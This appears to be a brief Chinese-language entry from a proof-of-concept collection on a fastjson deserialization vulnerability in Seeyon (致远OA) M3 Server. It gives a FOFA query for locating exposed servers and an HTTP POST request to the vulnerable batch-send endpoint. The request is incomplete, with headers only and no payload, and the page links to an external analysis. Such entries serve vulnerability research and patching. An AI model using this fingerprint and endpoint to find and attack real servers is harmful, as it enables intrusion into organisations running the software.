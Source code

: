 
## 致远OA M3 Server 反序列化漏洞

## fofa
```
"M3-Server 已启动"
```

根据群友说，这个漏洞是fastjson反序列化
## poc
```
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencod


```
![ef21d114d1965815537db98570d2daf7](https://github.com/wy876/POC/assets/139549762/b3609c72-0516-4c69-a64f-62c86fffb30d)

##漏洞分析
```
https://mp.weixin.qq.com/s/czbhaf7jpNmgjAt-OFWmIA
```
